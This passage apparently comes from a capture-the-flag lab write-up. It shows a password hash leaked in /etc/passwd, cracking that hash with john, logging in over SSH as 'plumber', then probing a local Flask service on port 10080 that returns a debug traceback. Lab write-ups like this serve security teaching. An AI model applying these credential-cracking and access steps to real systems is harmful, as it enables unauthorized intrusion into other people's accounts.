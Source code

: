 ```jsx
plumber:$y$j9T$Q60srmF7j7UmqQhxTU2/p.$x2mfeh7AqyZr2sAcIT9LTXTEhVIbJ3Oians4wDJdin/:1000:1000:plumber:/home/plumber:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
gitlab-www:x:998:999::/var/opt/gitlab/nginx:/bin/false
git:x:997:998::/var/opt/gitlab:/bin/sh
gitlab-redis:x:996:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:995:996::/var/opt/gitlab/postgresql:/bin/sh
registry:x:994:995::/var/opt/gitlab/registry:/bin/sh
```

It seems the hash of the plumber user is available in the `/etc/passwd` file. Let’s brute force this with the following `john` command.

```jsx
john --format=crypt hash.txt
```

![https://i.ibb.co/18jP5w1/password-found.png](https://i.ibb.co/18jP5w1/password-found.png)

Using this credentials, we can SSH into the “plumber” user.

![https://i.ibb.co/5Fzy4D5/SSH-TO-PLUMBER.png](https://i.ibb.co/5Fzy4D5/SSH-TO-PLUMBER.png)

Let’s look at the Listening Ports via using the following command.

```jsx
netstat -tulnp
```

![https://i.ibb.co/y403JCB/netstat-tools.png](https://i.ibb.co/y403JCB/netstat-tools.png)

Let’s send a CURL request.

```jsx
plumber@plumber:~$ curl 127.0.0.1:10080
Cannot resolve GET request
plumber@plumber:~$
```

Let’s change the HTTP Method (POST) for this.

```jsx
plumber@plumber:~$ curl -XPOST 127.0.0.1:10080
<!doctype html>
<html lang=en>
  <head>
    <title>TypeError: expected str, bytes or os.PathLike object, not NoneType
.....
SHORTENED
.....
<div class="plain">
    <p>
      This is the Copy/Paste friendly version of the traceback.
    </p>
    <textarea cols="50" rows="10" name="code" readonly>Traceback (most recent call last):
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 2213, in __call__
    return self.wsgi_app(environ, start_response)
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 2193, in wsgi_app
    response = self.handle_exception(e)
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 2190, in wsgi_app
    response = self.full_dispatch_request()
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 1486, in full_dispatch_request
    rv = self.handle_user_exception(e)
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 1484, in full_dispatch_request
    rv = self.dispatch_request()
```